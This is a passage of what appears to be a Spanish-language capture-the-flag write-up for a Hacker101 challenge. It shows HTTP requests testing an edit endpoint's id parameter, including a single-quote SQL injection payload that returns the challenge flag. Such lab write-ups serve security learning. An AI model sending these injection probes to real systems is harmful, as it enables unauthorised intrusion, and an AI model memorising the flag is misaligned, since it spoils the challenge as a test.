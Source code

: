 ```HTTP
Content-Type: text/html; charset=utf-8
Content-Length: 207
Connection: keep-alive
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

**Testeo de parámetro `id` en GET `/page/edit/id`**

**Parámetro vacío**
```HTTP
GET /page/edit/ HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
User-Agent: HTTPie/3.2.4
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com



HTTP/1.1 404 NOT FOUND
Date: Sun, 03 Aug 2025 16:12:42 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 207
Connection: keep-alive
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

**SQLi**

Payload: `'`

```HTTP
GET /page/edit/1' HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: 9940c6abb8ba1a5fdb4cf8e5d48cdddc.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 76
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 23:08:13 GMT
Server: openresty/1.27.1.2

^FLAG^6e95e97eb4bc6738b440562a9992f418449c11d172851a9b2323466ace0a8ccd$FLAG$
```
